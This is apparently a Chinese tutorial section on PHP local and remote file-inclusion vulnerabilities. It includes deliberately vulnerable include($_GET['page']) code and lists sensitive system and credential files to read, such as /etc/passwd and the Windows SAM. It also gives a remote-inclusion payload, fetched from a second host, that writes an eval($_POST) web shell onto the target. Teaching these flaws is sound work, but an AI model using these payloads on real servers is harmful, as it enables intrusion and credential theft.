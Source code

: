 #### 本地包含漏洞（LFI）
新建一个phpinfo.txt，然后新建一个shell.php，写入：
```bash
<?php
    Include("phpinfo.txt");
?>
```
　　访问shell.php会输出phpinfo页面内容，无论将扩展名改为什么，都将以php代码执行。如果文件不是符合php规则的（即没有写<?php ?>等），则通过include可以直接输出源码。

#### 远程包含漏洞
前提：需要开启allow_url_fopen，默认关闭。
新建php.txt:
```bash
<?php
   echo "hello world";
?>
```
新建index.php:
```bash
<?php
    Include($_GET['page']);
?>
```
访问*http://www.xxxx.com/page=http://www.xxxx.com/php.txt*执行结果将输出hello world。

#### 文件包含利用
##### 读取敏感信息
如：http://www.xxx.com/index.php?page=/etc/passwd
Windows:
```bash
c:\boot.ini
c:\windows\systems32\inetsrv\MetaBase.xml
c:\windows\repair\sam
c:\windows\php.ini             php配置文件
c:\windows\my.ini               mysql配置文件
```
LINUX:
```bash
/etc/passwd
/usr/local/app/apache2/conf/http.conf
/usr/local/app/php5/lib/php.ini          PHP相关设置
/etc/httpd/conf/http.conf                    apache配置文件
/etc/my.cnf                                              mysql配置文件
```

##### 远程包含shell
test.txt文件，可以保存在远程服务器上，内容如下：
```bash
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[nmask]);?>")?>
```
　　如果目标网站存在远程包含漏洞，则可以通过访问：*http://www.xxx1.com/index.php?page=http://www.xx2.com/test.txt*则会在服务器根目录下生产一个shell.php内容为:
```bash
<?php   eval($_POST[nmask]);?>
```
